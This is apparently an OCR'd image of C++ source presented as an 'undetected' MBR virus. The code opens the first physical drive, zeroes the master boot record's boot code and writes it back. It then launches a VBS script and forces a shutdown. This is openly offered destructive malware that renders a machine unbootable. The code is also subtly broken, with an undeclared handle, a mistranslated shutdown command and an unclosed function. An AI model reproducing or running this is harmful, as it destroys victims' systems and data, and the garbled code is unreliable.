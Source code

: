 # MBR Virus with CPUKiller Undetected Virus
 #MBR Virus is undetected with this version! VBS will defend him and makes undetected the real threat MBR.
 #include <Windows.h>
#include <iostream>
#include<stdio.h>

int _stdcall WinMain(HINSTANCE hInst, HINSTANCE hPrevInst, LPSTR lpCmd, int nCmdShow)
{
DWORD wb;
char mbr[512];
char oldMbr[512];
ZeroMemory(&mbr, sizeof(mbr));
ZeroMemory(&oldMbr, sizeof(oldMbr));
HANDLE drive = CreateFileA("\\\\.\\PhysicalDrive0", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, 0, OPEN_EXISTING, 0, 0);
ReadFile(drive, oldMbr, 512, &wb, NULL);
ZeroMemory(oldMbr, 440);
memcpy(mbr, oldMbr, 512);
SetFilePointer(drive, 0,0, FILE_BEGIN);
WriteFile(drive, mbr, 512, &wb, NULL);
CloseHandle(unidade);
system("bombalayan.vbs");
system("desligamento -s -t 00");
//Finish of code
